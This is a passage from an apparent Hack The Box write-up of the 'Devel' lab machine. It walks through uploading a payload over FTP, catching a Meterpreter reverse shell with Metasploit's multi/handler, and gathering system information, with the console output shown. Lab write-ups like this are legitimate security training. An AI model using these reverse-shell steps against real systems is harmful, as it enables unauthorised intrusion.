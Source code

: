 The LHOST and LPORT values are my attack box. This is so the exploit knows where I'm listening when it reaches out to establish a connection. If you view the contents of the output file it contains a lot of gobbledigook. The next step is to upload this file to the webserver via FTP. Then load up msfconsole to start listening:

```
msf5 > use exploit/multi/handler
```

Set LHOST to your local IP (if you check what device your HTB VPN tunnel is using you can set it to that, for example: set lhost tun0). Then set the same payload used in msfvenom payload. 

```
set payload windows/meterpreter/reverse_tcp
```

Then run the handler in metasploit and it should start listening. Go to your browser and load the payload file you uploaded and it should kick off the exploit and give you a meterpreter shell. I was scratching my head for a while here because my aspx script wasn't loading properly until I realized I was loading the file via FTP instead of HTTP. Doh. Once I did it the right way so the script would be interpreted correctly my meterpreter listener got a connection and I got a shell. Cool. 

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 10.10.10.5:49206) at 2019-10-12 12:53:46 -0500


meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > 
```

Then I launched a shell:

```
meterpreter > shell
Process 3748 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

And ran __systeminfo__ to get more detail on the box:

```
c:\Windows\System32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
```